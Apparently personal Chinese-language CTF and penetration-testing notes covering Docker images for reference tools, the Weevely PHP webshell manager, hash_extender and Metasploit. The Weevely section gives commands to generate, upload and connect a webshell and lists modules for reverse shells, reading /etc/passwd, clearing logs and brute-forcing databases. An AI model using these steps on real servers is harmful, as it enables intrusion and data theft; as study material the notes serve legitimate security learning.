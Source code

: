 # 镜像
[ctfwiki/ctf-wiki - Docker Image | Docker Hub](https://hub.docker.com/r/ctfwiki/ctf-wiki)
[wcjiang/linux-command - Docker Image | Docker Hub](https://hub.docker.com/r/wcjiang/linux-command)
[mpepping/cyberchef - Docker Image | Docker Hub](https://hub.docker.com/r/mpepping/cyberchef)

[sonarqube - Official Image | Docker Hub](https://hub.docker.com/_/sonarqube)
##### PHP manual
[PHP: Download documentation](https://www.php.net/download-docs.php)
```dockerfile
FROM nginx
COPY ./php-chunked-xhtml /usr/share/nginx/html
```

```sh
docker build . -t php8-manual
docker run --rm --name php8-manual -dp 3001:80 php8-manual
```

# Weevely
kali自带的webshell管理工具
1. 生成木马文件，在weebely3文件夹中会生成一个连接密码为123的shell.php
```sh
./weevely.py generate <password> shell.php
```
2. 上传shell文件到目标服务器
3. 连接木马
```sh
./weevely.py http://192.168.139.129:81/shell.php <password>
```
4. 连上之后可以执行指令了
5. 利用自带模块收集信息

```sh
:system_info -info uname
# 直接输入help可以查看其他可用模块
```

```sh
:shell_su                     # 通过更变使用者来执行shell命令，可以获得root权限来执行命令.
:shell_sh                     # 执行 shell 命令.
:shell_php                    # 执行 PHP 命令.
:system_extensions            # 收集PHP和webserver扩展列表
:system_info                  # 收集系统信息
:system_procs                 # 列出正在运行的进程
:audit_disablefunctionbypass  # 使用mod_cgi和.htaccess绕过系统禁用函数的限制。它会上传.htaccess和CGI脚本，并在远程服务器上运行伪系统shell
:audit_etcpasswd              # 查看/etc/passwd文件
:audit_suidsgid               # 查找带有SUID或SGID标志的文件。
:audit_phpconf                # 查看php配置信息
:audit_filesystem             # 审核文件系统的弱权限。枚举各种系统目录并寻找可读写执行的目录，模块仅默认搜索部分linux下的常见目录，logs、root、home等
:backdoor_reversetcp          # 执行反向TCP shell. 需要nc -lvp <port>监听
:backdoor_tcp                 # 在TCP端口上生成shell
:net_scan                     # TCP端口扫描.
:net_mail                     # 发送邮件.
:net_ifconfig                 # 获取网络接口地址.
:net_curl                     # 执行类似curl的HTTP请求.
:net_proxy                    # 运行本地代理以通过目标转移HTTP / HTTPS浏览
:net_phpproxy                 # 在目标上安装PHP代理.
:bruteforce_sql               # 可用来猜解数据库密码.
:file_find                    # 查找具有给定名称和属性的文件.
:file_download                # 从远程文件系统下载文件.
:file_check                   # 获取文件的属性和权限.
:file_touch                   # 更改文件时间戳.
:file_cd                      # 更改当前工作目录.
:file_grep                    # 打印与多个文件中的模式匹配的行.
:file_gzip                    # 压缩或解压gzip文件.
:file_tar                     # 压缩或解压tar文件.
:file_enum                    # 检查路径列表的存在和权限
:file_bzip2                   # 压缩或解压bzip2文件.
:file_mount                   # 使用HTTPfs挂载远程文件系统.
:file_clearlog                # 从文件中删除字符串.
:file_zip                     # 压缩或解压zip文件.
:file_cp                      # 复制单个文件.
:file_upload2web              # 自动将文件上传到Web文件夹并获取相应的URL.
:file_edit                    # 在本地编辑器上编辑远程文件.
:file_read                    # 从远程文件系统中读取远程文件.
:file_webdownload             # 指定URL下载文件.
:file_upload                  # 文件上载到远程文件系统.
:file_ls                      # 列出目录内容.
:file_rm                      # 删除远程文件.
:sql_dump                     # Multi dbms mysqldump replacement.
:sql_console                  # 执行SQL查询或运行sql控制台.
```


# Hash_extender
[iagox86/hash_extender (github.com)](https://github.com/iagox86/hash_extender)
哈希扩展攻击的实现

```sh
# clone后将makefile中改为-Wno-deprecated-declarations再进行make
- CFLAGS		:= -std=c89 -g -oS -Wall -Werror -Wno-deprecated
+ CFLAGS		:= -std=c89 -g -oS -Wall -Werror -Wno-deprecated-declarations


# 使用方式
hash_extender --data data --secret 6 --append append --signature 6036708eba0d11f6ef52ad44e8b74d5b --format md5

# H(secret + data)
# 使得自行拼凑的 H(secret + data + append)有效
# secret其实可以随便填，反正随便猜个长度
```



# Metasploit
`msfconsole`启动
常用的渗透测试工具，包含了常见的漏洞利用模块和生成各种木马。



